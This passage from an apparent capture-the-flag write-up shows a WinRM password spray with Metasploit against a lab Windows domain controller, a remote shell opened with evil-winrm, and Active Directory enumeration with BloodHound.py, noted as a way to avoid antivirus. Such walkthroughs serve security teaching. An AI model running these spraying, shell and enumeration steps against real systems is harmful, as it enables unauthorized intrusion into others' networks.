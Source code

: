 ```powershell
```

We can use `Get-LocalUser` to get a list of all users.

```ruby
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.179
msf5 auxiliary(scanner/winrm/winrm_login) > set DOMAIN MEGACORP
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD D3veL0pM3nT!
msf5 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\Administrator:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\Guest:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\krbtgt:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\DefaultAccount:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\svc-nas:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\tushikikatomo:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\andrew:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\lana:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\alice:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\dai:D3veL0pM3nT! (Incorrect: )
[-] 10.10.10.179:5985 - LOGIN FAILED: MEGACORP\svc-sql:D3veL0pM3nT! (Incorrect: )
[+] 10.10.10.179:5985 - Login Successful: MEGACORP\sbauer:D3veL0pM3nT!
```

The user `sbauer` is allowed to login using the found password.

```bash
root@darkness:~# evil-winrm -i 10.10.10.179 -u 'MEGACORP\sbauer' -p 'D3veL0pM3nT!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents>
```

### Privesc Sbauer - Jorden

Now that we are sbauer, let us enumerate the domain using Bloodhound.

#### Enumeration as Sbauer

Let us run [BloodHound.py](https://github.com/fox-it/BloodHound.py), which is Python based ingestor for BloodHound. The advantage of using this instead of SharpHound is that we don't have to worry about AV.

```bash
root@darkness:~# bloodhound-python -u sbauer -p 'D3veL0pM3nT!' -c All -d megacorp.local -dc multimaster.megacorp.local -ns 10.10.10.179
INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: multimaster.megacorp.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: multimaster.megacorp.local
INFO: Found 28 users
INFO: Connecting to GC LDAP server: MULTIMASTER.MEGACORP.LOCAL
INFO: Found 56 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MULTIMASTER.MEGACORP.LOCAL
INFO: Done in 00M 09S
root@darkness:~# ls *.json
computers.json  domains.json  groups.json  users.json
```
